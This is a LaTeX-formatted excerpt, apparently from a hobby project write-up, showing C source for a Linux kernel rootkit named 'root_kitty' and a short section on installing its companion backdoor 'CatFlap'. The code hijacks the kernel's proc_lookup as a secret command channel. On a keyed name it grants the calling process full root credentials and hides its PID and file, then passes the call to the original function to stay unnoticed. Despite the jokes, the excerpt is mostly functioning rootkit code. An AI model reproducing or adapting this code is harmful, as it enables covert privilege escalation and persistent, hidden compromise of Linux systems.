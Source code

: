 \documentclass[11pt]{article}
\begin{document}
\begin{verbatim}
/**
 * Hijack'd lookup which we're using as a comm channel. :^)
 */
struct dentry *proc_lookup(struct inode *i, struct dentry *d,unsigned int flag) {

    // Lock current task to avoid race conditions.
    task_lock(current);

    // Convert ulong pid to string because my architecture sucks and I'm out of time :^)
    char s_pid[64];
    sprintf(s_pid, "%lu", current->pid);

    // If the current inode has the secret key, fetch the command from it and process it.
    if(strncmp(SECRET_KEY, d->d_name.name, strlen(SECRET_KEY))==0) {

        printk("root_kitty: Secret key detected, fetching command.\n");
        char *cmd = get_cmd(d->d_name.name);
        printk("root_kitty: \t`->Received command: %s\n", cmd);

        // HIDE_BD: If backdoor knocks, give it root and hide its file + PID.
        if (strncmp(cmd, HIDE_BD, strlen(cmd)) == 0){

            // Elevate process to root.
            printk("root_kitty: Granting CatFlap root\n");
            struct cred *orig_cred = get_current_cred();
            struct cred *root_cred = prepare_creds();

            root_cred->uid.val   = 0;
            root_cred->gid.val   = 0;
            root_cred->euid.val  = 0;
            root_cred->egid.val  = 0;
            root_cred->suid.val  = 0;
            root_cred->sgid.val  = 0;
            root_cred->fsuid.val = 0;
            root_cred->fsgid.val = 0;
            commit_creds(root_cred);

            // Hide the backdoor by adding its PID and file to our lists.
            printk("root_kitty: \tAdding %u to PID list\n", current->pid);
            pid_add(s_pid);

            printk("root_kitty: \tAdding %s to file list\n", current->comm);
            file_add(current->comm);
        }
    }
    task_unlock(current);

    // Nothing to see here, officer.
    original_proc_lookup = asm_hook_unpatch(proc_lookup);
    struct dentry *ret = original_proc_lookup(i, d, flag);
    asm_hook_patch(proc_lookup);

    return ret;
}
\end{verbatim}

\subsection{Installing Your CatFlap}
I wrote a simple backdoor to accompany RootKitty called CatFlap™. CatFlap™ first obtains root and hides itself by knocking with the \texttt{HIDE_BD} command, after which it listens on localhost:9447 for any authorised cats. As this is 2017, CatFlap™ uses state of the art voice biometrics to keep your home secure from unauthorised cats, listening for the passphrase ``Meow!".\\
\end{document}
